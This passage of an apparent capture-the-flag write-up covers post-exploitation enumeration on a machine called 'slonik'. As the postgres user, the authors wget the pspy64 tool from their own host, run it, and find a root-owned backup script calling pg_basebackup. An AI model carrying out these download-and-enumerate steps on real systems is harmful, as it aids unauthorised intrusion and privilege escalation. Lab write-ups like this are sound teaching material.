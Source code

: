 We start exploring the environment as the PostgreSQL user.\
After wasting some time, it finally occurs to us to run `pspy64`.

<pre class="language-bash"><code class="lang-bash">postgres@slonik:/tmp$ wget http://10.8.6.29/pspy64
wget http://10.8.6.29/pspy64
--2025-04-18 18:23:55--  http://10.8.6.29/pspy64
Connecting to 10.8.6.29:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M   777KB/s    in 3.9s    

2025-04-18 18:23:59 (777 KB/s) - ‘pspy64’ saved [3104768/3104768]

postgres@slonik:/tmp$ ls
ls
f
pspy64
snap-private-tmp
systemd-private-739f17214c864a70a0532b060bac63f1-chrony.service-pkFT46
systemd-private-739f17214c864a70a0532b060bac63f1-systemd-logind.service-G8YuTZ
systemd-private-739f17214c864a70a0532b060bac63f1-systemd-resolved.service-y68uaa
postgres@slonik:/tmp$ chmod +x pspy64
chmod +x pspy64
postgres@slonik:/tmp$ ./pspy64
./pspy64
<strong>pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
</strong>

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
<strong>&#x3C;SNIP>
</strong>2025/04/18 18:25:01 CMD: UID=0     PID=2597   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:01 CMD: UID=0     PID=2598   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:01 CMD: UID=0     PID=2599   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:01 CMD: UID=0     PID=2600   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:01 CMD: UID=115   PID=2601   | postgres: 14/main: walsender postgres [local] sending backup "pg_basebackup base backup"                                  
2025/04/18 18:25:01 CMD: UID=0     PID=2603   | /usr/lib/postgresql/14/bin/pg_basebackup -h /var/run/postgresql -U postgres -D /opt/backups/current/ 
2025/04/18 18:25:01 CMD: UID=115   PID=2602   | postgres: 14/main: walsender postgres [local] streaming 0/FC0000D8                                                        
2025/04/18 18:25:01 CMD: UID=0     PID=2604   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:02 CMD: UID=0     PID=2605   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:02 CMD: UID=0     PID=2606   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:02 CMD: UID=0     PID=2607   | /bin/bash /usr/bin/backup 
2025/04/18 18:25:15 CMD: UID=115   PID=2608   | postgres: 14/main: autovacuum worker            
</code></pre>
